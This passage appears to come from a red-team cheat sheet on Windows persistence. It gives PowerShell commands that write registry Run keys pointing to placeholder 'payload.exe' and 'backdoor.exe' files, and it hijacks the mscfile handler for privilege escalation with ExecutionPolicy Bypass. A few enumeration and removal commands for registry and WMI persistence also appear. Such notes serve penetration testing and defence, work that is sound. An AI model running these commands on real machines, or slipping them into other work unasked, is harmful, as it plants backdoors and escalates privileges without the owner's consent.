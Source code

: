 #### Exploit Write Access for Persistence
If the user has `WRITE` or `FULL CONTROL` on specific registry keys, modify them to include malicious payloads that will be executed on startup:
```powershell
Set-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' -Name 'MaliciousApp' -Value 'C:\path\to\payload.exe'
```

#### Modify Registry for Privilege Escalation
Create or modify registry entries to escalate privileges (e.g., abusing `mscfile` handlers):
```powershell
New-ItemProperty -Path "HKCU:\Software\Classes\mscfile\shell\open\command" -Name "(default)" -Value "powershell.exe -NoProfile -ExecutionPolicy Bypass" -PropertyType String -Force
```

#### Remove a Registry Entry
To remove a malicious persistence key:
```powershell
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' -Name "MyBackdoor"
```

#### View Startup Program Registry Entries
View all entries in the `Run` key, commonly used for persistence:
```powershell
Get-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run'
```

#### Add a Registry Entry for Startup Persistence
You can add entries in the `Run` key for persistence:
```powershell
Set-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' -Name "MyBackdoor" -Value "C:\Backdoor\backdoor.exe"
```

#### Registry Key Payload Examples
- [[Windows Targeting - Registry Values]]

# Windows Management Instrumentation (WMI)

WMI Event Subscriptions enable persistence by executing commands in response to specific WMI events. These can be triggered based on system events such as process creation, user logon, file creation, or time-based events.

#### View Registered WMI Event Filters
WMI Event Filters define the conditions under which the event will trigger.
```powershell
Get-WmiObject -Namespace root\subscription -Class __EventFilter
```

#### View Registered Consumers
Consumers define the action (e.g., command execution) that is taken when an event is triggered.
```powershell
Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer
```
